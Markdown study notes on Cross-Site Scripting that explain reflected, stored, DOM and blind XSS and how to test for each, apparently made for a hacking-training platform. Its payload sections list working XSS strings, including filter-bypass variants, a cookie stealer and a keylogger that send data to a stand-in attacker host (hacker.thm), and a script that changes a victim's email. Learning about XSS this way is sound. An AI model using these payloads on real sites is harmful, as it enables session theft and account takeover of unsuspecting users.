 ```yaml
---
title: Cross-Site Scripting (XSS)
sidebar_position: 5
description: Cross-Site Scripting notes.
---
```


## Introduction
- Cross-Site Scripting (XSS) as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

## Useful Payloads

- To display a basic alert box.
    ```
    <script>alert('XSS');</script>
    ```
- To steal user cookie.
    ```
    <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    ```
- To steal keystrokes by acting as a keylogger.
    ```
    <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
    ```
- To call a javascript function
    ```
    <script>user.changeEmail('attacker@hacker.thm');</script>
    ```

## Types of XSS
- There are 4 different types of XSS
  - Reflected XSS
  - Stored XSS
  - DOM XSS
  - Blind XSS

## Reflected XSS
- Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

### Impact
- The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

### Test For Reflected XSS
- Test the areas where the user input is reflected back. Examples include
    - Parameters in the URL Query String
    - URL File Path
    - Sometimes HTTP Headers (although unlikely exploitable in practice)

## Stored XSS
- In Stored XSS, the payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

### Impact
- Stored XSS is more dangerous than Reflected XSS.
- It gets executed to any user visiting the infected webpage without attacker sending anything to victim.
- Stored XSS can redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

### Test For Stored XSS
- Test for areas where the data is stored and then shown back to other users. Examples include
    - Comments on a blog
    - User profile information
    - Website Listings

## DOM Based XSS
- DOM stands for Document Object Model
- DOM is the programming interface for HTML and XML documents.
- DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

### Impact
- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

### Test For DOM Based XSS
- Look for parts of the code that access certain variables that an attacker can have control over, such as `window.location.x` parameters.
- Look for unsafe JavaScript methods called sinks such as `eval()`.

## Blind XSS
- Blind XSS is similar to Stored XSS but the execution result is not displayed on the browser.


### Impact
- Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed.

### Test For Blind XSS
- When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.
- A popular tool for Blind XSS attacks is XSS Hunter Express (https://github.com/mandatoryprogrammer/xsshunter-express).

## XSS Payloads
1. `<script>alert('XSS');</script>`
2. `"><script>alert('XSS');</script>`
3. `</textarea><script>alert('XSS');</script>`
4. `';alert('XSS');//`
5. `<sscriptcript>alert('XSS');</sscriptcript>`
6. `/images/cat.jpg" onload="alert('XSS');`

